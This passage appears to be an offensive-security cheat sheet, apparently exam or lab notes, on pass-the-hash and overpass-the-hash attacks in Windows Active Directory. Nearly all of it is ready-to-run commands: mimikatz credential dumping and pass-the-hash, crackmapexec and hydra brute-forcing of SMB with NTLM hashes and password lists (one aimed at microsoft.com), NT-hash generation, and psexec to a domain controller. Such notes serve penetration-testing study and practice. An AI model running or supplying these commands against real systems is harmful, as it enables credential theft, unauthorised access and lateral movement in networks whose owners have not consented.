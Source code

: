 ```powershell
# locally on windows host

sekurlsa::pth /user:zensvc /domain:exam.com /ntlm:d098fa8675acd7d26ab86eb2581233e5 /run:PowerShell.exe

```

* bruteforce with crackmapexec

```bash

crackmapexec smb ip -u users.txt -H 2126EE7712D37E265FD63F2C84D2B13D --local-auth

```

* bruteforce with hydra

```powershell

## PSH SMB
hydra smb://ip  -l username -p D5731CFC6C2A069C21FD0D49CAEBC9EA:2126EE7712D37E265FD63F2C84D2B13D::: -m "local hash"

## BRUTEFORCING SMB ON OTHER DOMAIN IN AD WITH PASSWORDLIST
hydra smb://microsoft.com  -l username -P passwords.txt -m "other_domain:SECONDDOMAIN"

```


### Overpass the Hash

This attack uses NTLM hash to obtain a TGT to gain further access if user was logged on on the compromised machine where you fot SYSTEM rights.

Also possible to generate NTLM hash in linux if password is given

```bash
pw=Password123

printf '%s' "$pw" | iconv -t utf16le | openssl md4

#thats NT hash
MD4(stdin)= 58a478135a93ac3bf058a5ea0e8fdb71

```

#### Option A: mimikatz

```powershell

privilege::debug

sekurlsa::logonpasswords

# copy NTLM for the user in scope

# perform pass the hash

sekurlsa::pth /user:user101 /domain:scorp.com /ntlm:1234ef79d8372408bf6e93364cc93075 /run:powershell

# access some service to grab TGT
net use \\DC01

# run psexec

.\ps.exe -accepteula \\dc01 cmd

```